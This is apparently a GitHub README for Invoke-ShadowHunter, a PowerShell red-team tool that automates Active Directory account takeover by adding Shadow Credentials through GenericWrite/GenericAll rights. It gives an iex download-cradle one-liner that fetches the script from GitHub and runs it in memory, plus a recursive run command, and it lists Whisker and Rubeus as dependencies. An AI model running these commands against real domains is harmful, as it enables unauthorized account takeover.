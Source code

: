 # Invoke-ShadowHunter
Automate accounts takeover by abusing GenericWrite/GenericAll rights to add Shadow Credentials

I'll add usage details soon, in the meantime, please watch the videos below

### Main Usage:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-ShadowHunter/main/Invoke-ShadowHunter.ps1')
```

```
Invoke-ShadowHunter -Recursive
```

https://github.com/Leo4j/Invoke-ShadowHunter/assets/61951374/ae52d94f-0043-46fe-84fb-5ffc58e3efd4

### Add entries to the table and run:

https://github.com/Leo4j/Invoke-ShadowHunter/assets/61951374/ac71370e-4c51-4cbf-a702-2c01457cc8c7

### Dependencies

https://github.com/eladshamir/Whisker

https://github.com/GhostPack/Rubeus

